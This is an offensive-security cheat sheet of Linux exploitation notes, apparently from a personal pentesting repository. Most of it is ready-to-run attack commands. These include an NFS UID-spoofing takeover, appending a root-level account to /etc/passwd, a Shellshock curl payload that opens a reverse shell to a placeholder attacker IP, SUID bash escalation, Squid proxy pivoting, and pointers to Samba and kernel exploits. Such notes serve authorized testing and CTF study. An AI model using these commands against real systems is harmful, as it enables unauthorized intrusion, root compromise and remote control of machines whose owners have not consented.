 [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```

ShellShock

```shell
# recon
nikto -url http://<target ip>/cgi-bin
nmap <target ip> -p <target port> --script=http-shellshock --script-args uri=/cgi-bin/home.cgi
# reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1; echo zzzz;'" http://<target ip>/cgi-bin/home.cgi | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

[Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)

```
restricted: cannot specify `/' in command names
```

Squid

```shell
# Usually use port 3128
curl --proxy http://<Squid host ip>:<port> http://<target ip>:<port>
```

using proxychains

```shell
# edit
sudo vim /etc/proxychains4.conf

#socks4  127.0.0.1 9050
#socks5  127.0.0.1 1080

http <Squid host ip> <port>
```

```shell
proxychains nmap -p- -Pn -sT localhost
proxychains nmap -p- -Pn -sT <target ip>
```

using [spose](https://github.com/aancw/spose) to scan open port

```shell
python spose.py --proxy http://<Squid host ip>:<port> --target <target ip>
```

Check if authentication is required. If authentication is required, setting up the proxy directly in Firefox will cause the browser to hang during browsing.

```shell
curl -s --proxy <Squid host ip>:<port> http://<target ip> > /tmp/test.html
firefox /tmp/test.html
```

#### Chrome

--remote-debugging-port

```
chrome://inspect/
```

[CVE-2012-0056] memodipper

```
https://www.exploit-db.com/exploits/18411
```

```
exploit/linux/samba/trans2open
```

#### Tasks

```shell
chmod +s /bin/bash
bash -p
```

#### old machine

- Samba versions 2.2.0 to 2.2.8

```
trans2open
```

- Samba 3.0.24

```
https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2010-0926_smb_symlink_traversal
```

- Compiling the exploit binary sometimes has to be done on the same version of the machine.

- CVE-2020-1938 Ghostcat

- [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) RDS privilege escalation exploit

- [sudo 1.8.31](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
    - If possible, try to compile on the target machine.